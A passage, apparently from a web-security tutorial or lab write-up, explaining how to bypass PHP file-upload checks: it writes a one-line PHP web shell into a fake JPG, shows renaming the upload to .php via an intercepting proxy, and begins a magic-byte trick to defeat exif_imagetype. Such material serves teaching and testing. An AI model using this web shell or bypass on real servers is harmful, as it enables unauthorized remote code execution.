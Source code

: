 If we change the extension of filename tag from JPG to PHP, we may be able to execute code remotely.

- Create a fake JPG containing php code.

  We’ll be using system() to read our password.

  ```none
  echo "<?php system($_GET["cmd"]); ?>" > shell.jpg  
  ```

- Upload JPG, intercept in Burp/ ZAP and change the extension

  ```none
  <input name="filename" value="o0xn5q93si.jpg" type="hidden">  
  ```

  is changed to

  ```none
  <input name="filename" value="o0xn5q93si.php" type="hidden">  
  ```

#### Simple File Upload - With verifying image type

In this the above PHP code remain almost the same apart from little addition that we check the filetype of the file uploaded

```php
<?php  
...  
  
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  
      echo "File is not an image";  
  }  
  
...  
  
?>
```

Since the exif_imagetype function checks the filetype of the uploaded file. It checks the first bytes of an image are against a signature. Most filetypes such as JPEG, ZIP, TAR, etc. have a "Magic Number" at the beginning of the file to help verify its file type. So to pass the exif_imagetype function check, our file must start with the magic number of a supported image format.

- Take a valid file (JPG or whichever file format, we are trying to bypass), take the valid hexdump of that file (Let's say first 100 bytes)

  ```none
  hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg

  -n length         : Interpret only length bytes of Input
  -e format_string  : Specify a format string to be used for displaying data
  ```

  Example:

  ```none
  hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg
  \xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01\x01\x01\x01\x2C\x01\x2C\x00\x00\xFF\xE1\x00\x16\x45\x78\x69\x66\x00\x00\x4D\x4D\x00\x2A\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\xFF\xDB\x00\x43\x00\x05\x03\x04\x04\x04\x03\x05\x04\x04\x04\x05\x05\x05\x06\x07\x0C\x08\x07\x07\x07\x07\x0F\x0B\x0B\x09\x0C\x11\x0F\x12\x12\x11\x0F\x11\x11\x13\x16\x1C\x17\x13\x14\x1A\x15\x11\x11\x18\x21\x18\x1A\x1D\x1D\x1F
  ```
  

